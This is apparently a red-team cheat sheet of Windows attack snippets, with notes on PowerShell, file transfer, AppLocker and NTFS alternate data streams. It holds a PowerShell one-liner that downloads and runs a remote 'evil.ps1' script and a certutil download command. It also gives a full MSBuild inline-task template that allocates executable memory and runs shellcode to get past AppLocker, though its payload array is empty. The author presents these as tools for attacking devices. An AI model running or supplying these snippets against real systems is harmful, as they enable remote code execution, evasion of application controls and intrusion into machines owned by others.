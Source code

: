# Windows

## Windows Registry

## File Transfers

### powershell

```text
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
```

### certutil

```bash
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

## Powershell

Powershell was Windows' answer to improving the scripting solution within Windows.  It's incredibly powerful for both Sysadmins as well as attackers.  Here I will include a number of snippets I've found useful for attacking devices with.

#### Executing a script without an extension

```text
powershell - < ps1file
```

#### Executing a script hosted on a web-server

```text
iex (new-object net.webclient).downloadstring('http://192.168.0.1/evil.ps1')
```

## Applocker

> AppLocker advances the app control features and functionality of Software Restriction Policies. AppLocker contains new capabilities and extensions that allow you to create rules to allow or deny apps from running based on unique identities of files and to specify which users or groups can run those apps.

Source: [What Is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)

Despite the power this gives the Administrator in locking down what users can and can't execute, there are a disturbing number of ways to bypass this.  [Ultimate Applocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) aims to record most of them.

[GreatSCT ](https://github.com/GreatSCT/GreatSCT)can also be used to generate payloads to bypass these.

### MSBuild

We can use MSBuild to execute arbitrary shellcode. The Cn33liz [MSBuildShell ](https://github.com/Cn33liz/MSBuildShell)is one such example. To compile a `csproj` file we use:

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe test.csproj
```

An example csproj file to include shellcode within is:

```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
	  	byte[] shellcode = new byte[351] {};
	  	UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

## Alternate Data Streams

This is more a  feature of the NTFS file system than it is a Windows feature, but it's important to understand from both a red-team and blue-team perspective.  

These are also disturbingly common in CTF's through the security via obscurity, so we need some method of viewing and potentially executing these alternate data streams.  To list all alternate data streams 

```text
dir /R
```

### Powershell

```bash
Get-Content -path C:\Users\Booj\ads -stream *
```

We can also view individual streams using

```text
Get-Content -path C:\Users\Booj\ads -stream <streamname>
```

### Windows Pre-Vista

In Windows prior to Vista, there's unfortunately no easy way of viewing these streams in default Windows without a GUI access.  In an engagement this may not be entirely practical.

The best version, working on XP, I found to be [LADS](https://www.aldeid.com/wiki/LADS), but a number of the links online appear to be dead.  The [Web Archive](http://web.archive.org/web/20150602054446/http://www.heysoft.de/download/lads.zip) version is still up so acquiring a copy is still possible.

## References

[Abatchy - Powershell Download File One-Liners](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)  
[Sploitspren - Windows Privilege Escalation Guide](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

